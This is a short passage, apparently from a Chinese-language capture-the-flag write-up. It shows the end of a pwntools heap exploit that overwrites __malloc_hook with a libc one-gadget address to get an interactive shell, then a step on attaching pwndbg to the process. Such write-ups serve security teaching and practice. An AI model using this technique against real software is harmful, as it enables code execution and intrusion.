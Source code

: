    ``````python
   print(hex(malloc_hook-35))
   fill(2,len(payload),payload)
   alloc(0x60)
   alloc(0x60)
   system=libcbase+0x4526a
   payload=p64(0)*2+p8(0)*3+p64(system)
   fill(6,len(payload),payload)
   alloc(1)
   p.interactive()
   
   ``````

2. `gdb attach pid` 使用pwndbg附加调试。

   ```python
   print(proc.pidof(p))
   pause()
   gdb attach 121812
   ```
   
   

